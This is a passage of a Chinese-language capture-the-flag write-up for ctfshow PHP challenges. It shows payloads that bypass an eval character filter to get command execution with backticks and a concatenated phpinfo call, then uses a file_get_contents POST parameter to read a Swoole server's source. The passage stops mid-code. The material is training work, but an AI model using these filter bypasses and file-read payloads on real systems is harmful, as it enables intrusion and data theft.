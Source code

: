 > 
> if(!preg_match('/\'|\"|[0-9]|\{|\[|\~|\^|phpinfo|\$/i', $ctfshow)){
>     eval($ctfshow);
> }
> ```

反引号能rce

```
?ctfshow=echo `cat /flaag`;
```

或者`phpinfo()`也行

```
?ctfshow=((p).(h).(p).(i).(n).(f).(o))();
```



## 453~456

> 另类rce,额，反正就是很另类的样子

f12查看

```html
<!--/ctf/show?s=XXX  file_get_contents($_POST['s'])-->
```

可以先读下index.php的源码

```
url/ctf/show?s=XXX

post:
s=index.php
```

index.php

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2021-02-04 22:43:04
# @Last Modified by:   h1xa
# @Last Modified time: 2021-02-05 02:03:03
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


$http = new Swoole\Http\Server('0.0.0.0', 80);

$http->on('start', function ($server) {
    echo "Swoole http server is started at http://0.0.0.0:80\n";
});

$http->on('request', function ($request, $response) {
    list($controller, $action) = explode('/', trim($request->server['request_uri'], '/'));
    $route = array('ctf');
    $method = array('show','file','exec');
    if(in_array($controller, $route) && in_array($action, $method)){
    	(new $controller)->$action($request, $response);
    }else{
    	 $response->end('<h3>where is flag?</h3><!--/ctf/show?s=XXX  file_get_contents($_POST[\'s\'])-->');
```